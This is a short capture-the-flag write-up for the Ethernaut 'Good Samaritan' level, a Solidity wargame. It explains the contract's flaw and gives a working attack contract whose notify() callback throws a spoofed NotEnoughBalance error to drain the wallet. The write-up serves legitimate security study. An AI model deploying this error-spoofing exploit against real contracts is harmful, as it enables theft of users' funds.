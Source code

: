 # Level 24: [Good Samaritan](https://ethernaut.openzeppelin.com/level/0x8d07AC34D8f73e2892496c15223297e5B22B3ABE)

## Level objectives:
Drain all `Coins` from `Wallet`.
## Analysis
- Contracts:
    - `GoodSamaritan`
    - `Coin`
    - `Wallet`
    - `INotifyable` (interface)
- We interact with the `GoodSamaritan` using the `requestDonation()` function.
- It'll try to send 10 `Coins`; if that fails (due to low balance), it'll send whatever it has.
- Normally it shouldn't fail, cuz there'll be balance; but when `Coin` is transfered to a smart contract, it calls a `INotifyable(destination).notify()` function.
- This is where we hack; even though the transfer is successfull, we shall throw an error (the `NotEnoughBalance()` error) due to which the good samaritan will be tricked into sending us everything.
- Note: the `transferRemainder` will also eventually trigger `notify()`, so don't revert that lol!
## Code:
```sol
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.18;

interface GoodSamaritan {
    function requestDonation() external returns(bool enoughBalance);
}

interface INotifyable {
    function notify(uint256 amount) external;
}

contract AttackGoodSamaritan {
    GoodSamaritan victim = GoodSamaritan(0x51b624b6C893DC5C9FB0E84414F082727DbBc951);
    error NotEnoughBalance();
    
    function attack() public returns (bool) {
        bool enoughBalance = victim.requestDonation();
        return enoughBalance;
    }
    
    function notify(uint256 _amount) external {
        if (_amount <= 10) {
            revert NotEnoughBalance();
        }
    }
}
```